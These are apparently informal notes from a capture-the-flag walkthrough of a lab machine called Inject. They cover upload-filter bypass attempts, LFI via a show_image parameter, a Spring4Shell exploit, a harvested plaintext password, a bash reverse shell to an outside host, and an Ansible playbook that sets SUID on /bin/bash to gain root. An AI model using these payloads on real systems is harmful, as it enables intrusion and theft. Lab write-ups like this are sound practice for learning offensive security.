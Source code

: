 # nmap

ORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy



---------------------Starting Script Scan-----------------------
                                                                                                                   


PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


at 8080 website is open

upload at /upload

![](20230621000431.png)

only image files are accepted.

10.10.16.24

things that can be done to bypass

Just uploading .php file instead of jpg file.

Trying double extensions to bypass and upload php file pic.jpg.php or pic.php.jpg

Changing Content-type filtering i.e., changing Content-Type: txt/php to image/jpg

Tried Case sensitives — pic.PhP also tried pic.php5, pHP5.

Tried special characters to bypass pic.php%00 , pic.php%0a, pic.php%00

![](20230621003609.png)

able to upload by just chaninf the location

```
/register             (Status: 200) [Size: 5654]
/blogs                (Status: 200) [Size: 5371]
/upload               (Status: 200) [Size: 1857]
/environment          (Status: 500) [Size: 712]
/error                (Status: 500) [Size: 106]
/release_notes        (Status: 200) [Size: 1086]
/http%3A%2F%2Fwww     (Status: 400) [Size: 435]
/show_image           (Status: 400) [Size: 194]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 435]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 435]
/http%3A%2F%2Fblog    (Status: 400) [Size: 435]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 435]
/External%5CX-News    (Status: 400) [Size: 435]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 435]
/http%3A%2F%2Fradar   (Status: 400) [Size: 435]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 435]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 435]
/http%3A%2F%2Fswik    (Status: 400) [Size: 435]
```

there is something in th upload feature.

try for lfi

http://10.10.11.204:8080/show_image?img=rev.php.png

http://10.10.11.204:8080/show_image?img=20230621000431.png

https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601

http://10.10.16.24:8000/linpeas.sh  


LFI exploit

![](20230621020826.png)

after checking we found that the MAven framework has spring4shell exploit

so lets try and create a poc around that


frank@inject:~/.m2$ cat settings.xml
cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>

https://www.nickczh.com/upgrading-your-shell/
upgrading shell

python3 -c "import pty; pty.spawn('/bin/bash')"

ansible privilege escalation

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/?ref=nickczh.com

bash -c "bash -i >& /dev/tcp/10.10.16.24/443 0>&1"

└─$ python3 afterglow.py http://10.10.11.204:8080/ 10.10.16.24 1234
python3 afterglow.py http://10.10.11.204:8080/ 10.10.16.24 1234   


playbook_2.yml

- hosts: localhost
  tasks:
    - name: Get Root
      command: chmod u+s /bin/bash
      become: true


```
bash-5.0$ echo "- hosts: localhost
  tasks:
    - name: Get Root
      command: chmod u+s /bin/bash
      become: true
      echo "- hosts: localhost
>   tasks:
>     - name: Get Root
>       command: chmod u+s /bin/bash
>       become: true
> " > playbook_2.yml
      " > playbook_2.yml
bash-5.0$ ls -al
ls -al
total 16
drwxrwxr-x 2 root staff 4096 Jun 21 23:54 .
drwxr-xr-x 3 root root  4096 Oct 20  2022 ..
-rw-r--r-- 1 root root   150 Jun 21 23:54 playbook_1.yml
-rw-rw-r-- 1 phil phil   110 Jun 21 23:54 playbook_2.yml
bash-5.0$ cat playbook_2.yml
cat playbook_2.yml
- hosts: localhost
  tasks:
    - name: Get Root
      command: chmod u+s /bin/bash
      become: true
      
bash-5.0$ ls /bin/bash 0al
ls /bin/bash 0al
ls: cannot access '0al': No such file or directory
/bin/bash
bash-5.0$ ls /bin/bash -al
ls /bin/bash -al
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
bash-5.0$ whoami
whoami
phil
bash-5.0$ bash -p
bash -p
bash-5.0# whoami
whoami
root
bash-5.0# cd /root
cd /root
bash-5.0# cat root.txt
cat root.txt
70ea847e2946b2b9f2da8fc9172a45b2

```

how does /bin/bash -p work


# lessons 

1. Always check for LFI









